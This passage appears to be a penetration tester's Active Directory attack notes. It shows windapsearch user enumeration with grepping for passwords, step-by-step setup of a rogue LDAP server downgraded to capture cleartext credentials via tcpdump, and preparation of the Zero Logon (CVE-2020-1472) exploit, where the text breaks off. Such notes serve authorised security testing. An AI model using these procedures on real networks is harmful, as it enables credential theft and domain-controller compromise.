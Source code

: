 `python [windapsearch.py](http://windapsearch.py) -U --full --dc-ip <IP>`

- pipe this out to a tmp file and use the following command to sort. once sorted, look for interesting strings such as `password` or `pwd`
    - `cat tmp | awk '{print $1}' | sort | uniq -c | sort -nr | grep ':'`
    - YOU SHOULD THEN `grep -i` FOR:
        - `pass`
        - `pwd`
        - `password`
        - `etc`

### Hosting a Rogue LDAP Server

Install the following packages `apt-get install slapd ldap-utils`

Enable package on boot with `systemctl enable slapd`

Configure server to make it insecure with `dpkg`

- `dpkg-reconfigure -p low slapd`
- When prompted, select `No`
- provide the target domain eg `hiddenleaf.local`
- use the same domain as the organization name
- provide an admin password eg `admin123`
- select `MDB` as the database to use
- select `yes` for the database to be removed when slapd in purged
- `yes` to move old database

To allow credentials to be shown in clear text we have to downgrade the authentication methods. Create an ldif file called `olcSaslSecProps.ldif`:

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Use the file to patch the LDAP server:

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif`
- `systemctl restart slapd` or `service slapd restart`

Now listen using tcpdump:

`sudo tcpdump -SX -i eth0 tcp port 389`

It might take a few tries before you receive anything if you running over a vpn

## Zero Logon

*Do not run this is a production environment as this may break the domain controller*

git clone the github repo for `CVE-2020-1472` by dirkjanm and then download the `zero-logon tester` script for the same CVE by SecuraBV

run the tester script with the following syntax:
